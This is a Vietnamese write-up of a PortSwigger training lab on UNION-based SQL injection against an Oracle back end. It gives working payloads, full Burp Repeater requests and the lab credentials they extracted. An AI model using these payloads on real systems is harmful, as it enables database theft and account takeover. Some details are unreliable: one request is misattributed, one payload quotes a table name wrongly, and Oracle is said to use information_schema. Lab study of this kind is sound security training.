








# Write-up: SQL injection attack, listing the database contents on Oracle

### Tổng quan
Ghi lại quá trình khai thác SQLi để lấy thông tin tài khoản và đăng nhập dưới tên `administrator` để hoàn thành lab. 

### Mục tiêu
Đăng nhập vào hệ thống dưới tên `administrator`

### Công cụ
- Burpsuite Community
- Firefox Browser

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm dấu `'` để kích hoạt lỗi SQL:
  - **Kết quả**: xuất hiện lỗi SQL, xác nhận lỗ hổng
    

- Xác định số cột trả về:
    ```
    'ORDER BY 3--
    ```
    - **Kết quả**: `internal error server`, xác định có 2 cột
        

- Xác định kiểu dữ liệu trả về:
    ```
    'UNION SELECT 'aaa', 'bbb' FROM all_tables--
    ```
    - **Kết quả**: kiểu dữ liệu trả về là string
    

- Xác định kiểu DB mà hệ thống sử dụng
    ```
    'UNION SELECT NULL, banner FROM v$version--
    ```
    - **Kết quả**: Oracle
    

2. **Tạo Payload**
- Tạo payload kiểu tấn công UNION lấy tên bảng trong DB `(1)`
    ```
    'UNION+SELECT+table_name,NULL+FROM+user_tables--
    ```

- Tạo payload kiểu tấn công UNION lấy tên cột trong bảng `(2)`
    ```
    'UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'table_name_here'--
    ```
EMAIL, PASSWORD_KTNFZD, USERNAME_TJOSZG

- Tạo payload kiểu tấn công UNION lấy dữ liệu trong cột `(3)`
    ```
    'UNION SELECT 'user', 'password' FROM 'table_name'--
    ```

3. **Khai thác (Exploitation)**
- Gửi payload `(1)` qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_LWJPOK'-- HTTP/2
    ```
    
    - **Kết quả**: lấy được tên bảng `USERS_LWJPOK`

- Gửi payload `(2)` qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_LWJPOK'-- HTTP/2
    ```
    
    - **Kết quả**: Lấy được tên cột `PASSWORD_KTNFZD`, `USERNAME_TJOSZG`

- Gửi payload `(3)` qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+USERNAME_TJOSZG,+PASSWORD_KTNFZD+FROM+USERS_LWJPOK-- HTTP/2
    ```
    
    - **Kết quả**: Lấy được thông tin các user
        `administrator`:`s9l5mz4ooubuuwf2rl4z`
        `carlos`:`qov137htdjxs9wmmfubk`
        `wiener`:`sgkuvevojngtas6f6ri4`

- Login vào tài khoản `administrator` và hoàn thành lab
    

### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột và lấy thông tin phiên bản.
- Hiểu cách sử dụng bảng information_schema trong Oracle.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.